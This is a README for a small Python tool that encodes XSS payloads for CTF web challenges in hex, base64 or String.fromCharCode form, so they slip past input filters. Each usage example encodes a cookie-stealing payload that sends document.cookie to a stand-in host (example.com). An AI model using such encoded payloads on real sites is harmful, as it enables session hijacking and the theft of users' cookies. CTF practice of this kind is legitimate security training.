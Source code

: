 <div align="center">
  <img height="550px" src="https://user-images.githubusercontent.com/28403617/220600629-9da7b084-4fbc-4212-b10e-d395a178a7f5.svg#gh-light-mode-only">
  <img height="550px" src="https://user-images.githubusercontent.com/28403617/220600634-a43af6ba-fc67-4c47-981b-0c4e9c4aba7b.svg#gh-dark-mode-only">
</div>

## What is this?

It's a simple tool to encode payloads for ctf web challenges.

The main interest of this tool is to encode payloads for XSS vulnerabilities on ctfs challenges. It allows generating payloads with `String.fromCharCode` javascript function, raw hexa values and base64, used to bypass some filters.

## How to use it?

```sh-session
$ python3 enc-ow-der.py -h
usage: enc-ow-der.py [-h] -i INPUT [-b64] [-fchar] [-v]

optional arguments:
  -h, --help            show this help message and exit
  -i INPUT, --input INPUT
                        input string
  -b64, --base-64       encode as base64
  -fchar, --from-char-code
                        output the result with fromCharCode function
  -v, --verbose         verbose
```

## Examples

```sh-session
python3 enc-ow-der.py -i "document.location.replace('http://example.com/'+btoa(document.cookie))"
\x64\x6f\x63\x75\x6d\x65\x6e\x74\x2e\x6c\x6f\x63\x61\x74\x69\x6f\x6e\x2e\x72\x65\x70\x6c\x61\x63\x65\x28\x27\x68\x74\x74\x70\x3a\x2f\x2f\x65\x78\x61\x6d\x70\x6c\x65\x2e\x63\x6f\x6d\x2f\x27\x2b\x62\x74\x6f\x61\x28\x64\x6f\x63\x75\x6d\x65\x6e\x74\x2e\x63\x6f\x6f\x6b\x69\x65\x29\x29
```

```sh-session
python3 enc-ow-der.py -i "document.location.replace('http://example.com/'+btoa(document.cookie))" -b64
ZG9jdW1lbnQubG9jYXRpb24ucmVwbGFjZSgnaHR0cDovL2V4YW1wbGUuY29tLycrYnRvYShkb2N1bWVudC5jb29raWUpKQ==
```

```sh-session
python3 enc-ow-der.py -i "document.location.replace('http://example.com/'+ btoa(document.cookie))" -fchar
String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,46,114,101,112,108,97,99,101,40,39,104,116,116,112,58,47,47,101,120,97,109,112,108,101,46,99,111,109,47,39,43,32,98,116,111,97,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41,41)
```

```sh-session
python3 enc-ow-der.py -i "document.location.replace('http://example.com/'+ btoa(document.cookie))" -fchar -b64
String.fromCharCode(90,71,57,106,100,87,49,108,98,110,81,117,98,71,57,106,89,88,82,112,98,50,52,117,99,109,86,119,98,71,70,106,90,83,103,110,97,72,82,48,99,68,111,118,76,50,86,52,89,87,49,119,98,71,85,117,89,50,57,116,76,121,99,114,73,71,74,48,98,50,69,111,90,71,57,106,100,87,49,108,98,110,81,117,89,50,57,118,97,50,108,108,75,83,107,61)
```